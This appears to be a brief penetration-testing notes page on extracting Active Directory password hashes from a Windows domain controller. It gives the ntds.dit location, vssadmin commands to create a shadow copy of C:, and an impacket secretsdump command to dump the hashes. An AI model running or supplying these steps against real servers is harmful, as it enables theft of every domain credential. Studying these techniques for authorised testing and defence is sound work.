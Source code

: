# Getting Hashes on Servers

Servers with Active Directory installed

```bash
#Path to the file containing the AD hashes

C:\Windows\NTDS  #Directory that stores AD credentials
ntds.dit #Responsible for storing AD information

vssadmin #Utility responsible for creating a shadow copy of the volumes available in Windows

vssadmin list volumes #List all available volumes
vssadmin create shadow /for=c: # creates a shadow copy of the c:
```

<figure><img src="../../../.gitbook/assets/image (3) (1).png" alt=""><figcaption></figcaption></figure>

Dumping the hashes

```
impacket-secretdump -ntds ntds.dit -system system LOCAL
```
